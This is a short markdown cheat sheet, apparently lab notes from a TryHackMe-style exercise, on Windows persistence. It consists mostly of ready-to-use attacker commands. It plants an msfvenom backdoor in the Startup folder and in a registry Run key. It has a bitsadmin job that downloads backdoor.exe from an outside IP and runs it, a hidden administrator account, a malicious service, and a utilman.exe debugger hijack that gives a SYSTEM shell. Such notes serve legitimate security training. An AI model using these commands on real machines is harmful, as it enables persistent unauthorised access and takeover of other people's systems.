

# Persistence
Startup
-------

`The path of the startup folder is: C:\Users\%username%\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup`

Browse to that path and upload the binary you generated with msfvenom.. Since the binary is in the startup folder every time a user restarts its computer and logs in the backdoor will be executed and Metasploit will receive the connection.

**Editing registries**
----------------------

Depending on the registries a low privileged user might be able to edit them. With this in mind, an attacker could edit the registries to achieve persistence.

An example of an editable registry is: `HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run`

First, let's move the backdoor to the AppData folder. You can either move it from the Startup folder or upload it again to the AppData folder.

`reg add “HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run” /v Backdoor /t REG_SZ /d “C:\Users\tryhackme\AppData\Roaming\backdoor.exe”`

**BITS Jobs**
-------------

BITS (Background Intelligent Transfer Service) is used for file transfer between machines (downloading or uploading) using idle network bandwidth.

BITS Jobs are containers that contain files that need to be transferred. However, when creating the job the container is empty and it needs to be populated (specify one or more files to be transferred). It's also needed to add the source and the destination.

`bitsadmin /create backdoor`

`bitsadmin /addfile backdoor “http://10.17.17.11/backdoor.exe”  “C:\Users\tryhackme\Documents\backdoor.exe”`

`bitsadmin /SetNotifyCmdLine 1 cmd.exe “/c bitsadmin.exe /complete backdoor | start /B C:\Users\tryhackme\Documents\backdoor.exe”`

`bitsadmin /SetMinRetryDelay backdoor 30`

Backdoor user
-------------

`net user /add <USER> <PASSWORD>`
---------------------------------

`net localgroup Administrators Backdoor /add`

New service
-----------

Create the service using the New-Service cmdlet: 

`New-Service -Name "<SERVICE_NAME>" -BinaryPathName "<PATH_TO_BINARY>" -Description "<SERVICE_DESCRIPTION>" -StartupType "Boot"`

Powershell Scheduled Tasks
--------------------------

Powershell can be used to create a scheduled task and assure persistence but for that, we'll have to define multiple cmdlets. These are:

1.  New-ScheduledTaskAction
2.  New-ScheduledTaskTrigger
3.  New-ScheduledTaskPrincipal
4.  New-ScheduledTaskSettingsSet
5.  Register-ScheduledTask

  
New-ScheduledTaskAction - Is used to define the action that is going to be made.

New-ScheduledTaskTrigger - Defining the trigger (daily/weekly/monthly, etc). The trigger can be considered a condition that when met the scheduled task will launch the action.

New-ScheduledTaskPrincipal - Is the user that the task will be run as.

New-ScheduledTaskSettingsSet - This will set our above-mentioned settings.

Register-ScheduledTask - Will create the task.



```text-plain
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\utilman.exe" /t REG_SZ /v Debugger /d "C:\windows\system32\cmd.exe" /f
```